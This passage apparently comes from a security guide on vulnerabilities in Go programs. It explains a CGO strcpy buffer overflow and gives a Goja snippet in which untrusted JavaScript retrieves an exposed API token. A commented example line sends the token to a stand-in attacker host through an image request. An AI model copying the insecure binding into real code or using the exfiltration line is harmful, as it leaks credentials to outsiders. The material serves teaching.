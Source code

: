 **Explanation:** This Go program calls a C function `greet` via CGO. The C function uses `strcpy`, which does not perform bounds checking. If the `maliciousInput` provided from Go is longer than the `buffer` in `greet` can accommodate (63 characters plus a null terminator), a buffer overflow will occur on the C stack frame. This is a classic C vulnerability that has been introduced into a Go program through the use of CGO. An attacker could potentially craft the `maliciousInput` to overwrite the return address on the stack, leading to arbitrary code execution.

**2. Conceptual Goja Snippet (Illustrating Insecure JS Plugin Invocation - Potential Data Leak):**

```Go

package main

import (
    "fmt"
    "github.com/dop251/goja"
)

// Assume this variable holds sensitive data within the Go application.
var sensitiveApplicationKey = "secret_api_token_for_external_service_98765"

func main() {
    vm := goja.New()

    // Exposing a Go function to the JavaScript environment that inadvertently leaks sensitive data.
    // There are no checks on who is calling this function or what they will do with the returned data.
    err := vm.Set("fetchSensitiveKey", func(call goja.FunctionCall) goja.Value {
        // Directly returning sensitive data to the JS environment.
        return vm.ToValue(sensitiveApplicationKey)
    })
    if err!= nil {
        fmt.Println("Error setting Go function in JS VM:", err)
        return
    }

    // Untrusted JavaScript plugin code provided by an external source.
    untrustedPluginScript := `
        var stolenKey = fetchSensitiveKey();
        // In a real-world attack, this script would attempt to exfiltrate 'stolenKey',
        // for example, via an HTTP request if networking capabilities are available to the script,
        // or by logging it if logs are collected and accessible to the attacker.
        console.log("JavaScript Plugin Log: Retrieved key - " + stolenKey); 
        // If the JS environment has network access:
        // try { new Image().src = 'http://attacker-controlled-server.com/log?key=' + encodeURIComponent(stolenKey); } catch(e) {}
    `

    _, err = vm.RunString(untrustedPluginScript)
    if err!= nil {
        fmt.Println("Error running untrusted JavaScript plugin:", err)
    } else {
        fmt.Println("Untrusted JavaScript plugin executed.")
    }
}
```
